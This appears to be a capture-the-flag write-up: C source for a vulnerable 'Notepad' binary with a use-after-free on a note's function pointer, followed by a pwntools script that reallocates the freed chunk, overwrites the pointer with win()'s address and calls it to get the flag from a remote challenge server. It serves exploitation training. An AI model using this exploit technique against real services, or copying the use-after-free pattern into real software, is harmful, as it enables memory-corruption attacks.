 # Notepad

chal.c file:
`
//gcc chal.c -no-pie -o chal
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win(){ // address: 401196
    puts("You win! Here is flag:");
    system("cat flag.txt");
}
struct Note {
    char title[32];
    void (*read)(struct Note*); //declares a function pointer, func is read, returns nothing
    char content[1024];
};

struct Notepad {
    char name[64];
};

void readNoteContent(struct Note* note) {
    printf("%s\n", note->content); // prints the content
}

struct Note* newNote() {
    struct Note* note = malloc(sizeof(struct Note));
    puts("Enter note title:");
    fgets(note->title, 30, stdin);
    puts("Enter note content:");
    fgets(note->content, 1020, stdin);
    note->read = readNoteContent; // plan: overwrite read note content? but fgets no buffer overflow
    return note;
}


struct Notepad* newNotepad() {
    struct Notepad* notepad = malloc(sizeof(struct Notepad));
    puts("Enter notepad name:");
    fgets(notepad->name, 60, stdin);
    return notepad;
}

int main() {
    struct Notepad* notepad = NULL;
    struct Note* note = NULL;
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    while (1){
        puts("1: Create a new notepad\n2: Create a new note\n3: Read note content\n4: Throw away note\n0: Quit");
        char order = getc(stdin);  // UNSAFE!!! CAN PUT HERE
        /*
        Create note
        Throw away note
        still can read note (sus)
        
         */
        getchar();

        switch (order) {
            case '1':
                notepad = newNotepad();
                puts("Notepad created.");
                break;
            case '2':
                note = newNote();
                break;
            case '3':
                if (!note) {
                    puts("You do not have a note.");
                    break;
                }
                note->read(note);
                break;
            case '4':
                if (!note) {
                    puts("You do not have a note.");
                    break;
                }
                free(note);
                break;
            case '0':
            default:
                goto fin;
        }
    }
fin:
    puts("Bye!");
    return 0;
}
`

### Solution:

from pwn import *
filename = "chal"
# context.binary =elf = ELF(filename)
# p = process()
# gdb.attach(p)
# input()
p = remote('188.166.198.74',30011)

OFFSET = 32

p.sendlineafter("Quit", "2")
p.sendlineafter("Enter note title:","test")
p.sendlineafter("Enter note content:","blahaj")

p.sendlineafter("Quit", "4")
p.sendlineafter("Quit", "1")

# p.sendlineafter("Enter notepad name:", b"A"*OFFSET + p64(elf.sym["win"]))
p.sendlineafter("Enter notepad name:", b"A"*OFFSET + b'\x96\x11@\x00\x00\x00\x00\x00')

p.sendlineafter("Quit", "3")

# get the flag
while True: 
    print(p.recvline())

#p.interactive()`
